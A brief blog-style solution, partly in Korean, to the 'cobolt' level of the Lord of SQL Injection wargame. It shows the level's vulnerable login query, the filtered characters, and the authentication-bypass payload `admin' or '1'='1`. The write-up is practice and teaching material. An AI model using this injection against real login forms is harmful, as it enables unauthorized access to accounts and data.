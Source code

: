 ```yaml
---
title: "[LOS] cobolt"
date: 2025-03-20 00:00:00
categories: [Wargame, Lord of SQL Injection]
tags: [webhacking, sqli]
published: True
---
```


# Query

```sql
select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')
```

<br>

# preg_match

- `prob` 문자열
- `_`
- `.`
- `()`

<br>

# Payload

```
?id=admin' or '1'='1
```
